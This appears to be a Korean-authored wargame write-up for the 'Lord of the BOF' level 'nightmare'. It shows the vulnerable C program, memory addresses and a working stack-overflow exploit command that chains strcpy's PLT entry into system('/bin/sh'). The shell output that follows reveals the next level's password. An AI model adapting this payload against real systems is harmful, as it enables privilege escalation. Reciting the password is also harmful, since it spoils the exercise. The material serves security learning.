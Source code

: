 ```yaml
---
title: "[LOB]Level18. nightmare"
tags: [Wargame, LOB, Write-up]
author: eli_ez3r
key: 20180831
modify_date: 2018-08-31
article_header:
  type: cover
  image:
    src: 
---
```


## keyword : plt

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - nightmare
        - PLT
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <dumpcode.h>

main(int argc, char *argv[])
{
    char buffer[40];
    char *addr;

    if(argc < 2){
        printf("argv error\n");
        exit(0);
    }

    // check address
    addr = (char *)&strcpy;
    if(memcmp(argv[1]+44, &addr, 4) != 0){
        printf("You must fall in love with strcpy()\n");
        exit(0);
    }

    // overflow!
    strcpy(buffer, argv[1]);
    printf("%s\n", buffer);

    // dangerous waterfall
    memset(buffer+40+8, 'A', 4);
}
```

![image-20180727182321698](http://eliez3r.synology.me/assets/img/writeup/lob/18.nightmare/image-20180727182321698.png)

strcpy = 0x8048410

system = 0x40058ae0

ebp-40 = 0xbffffaa0

"/bin/sh" = 0x400fbff9

ret+4 = 0xbffffad0

```sh
[succubus@localhost succubus]$ ./nightmare `python -c 'print "\xe0\x8a\x05\x40"+"A"*4+"\xf9\xbf\x0f\x40"+"A"*32+"\x10\x84\x04\x08"+"A"*4+"\xd0\xfa\xff\xbf"+"\xa0\xfa\xff\xbf"'`
�@AAAA�@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA��������
bash$ my-pass
euid = 518
beg for me
bash$ id
uid=517(succubus) gid=517(succubus) euid=518(nightmare) egid=518(nightmare) groups=517(succubus)
```



##### **nightmare / beg for me**

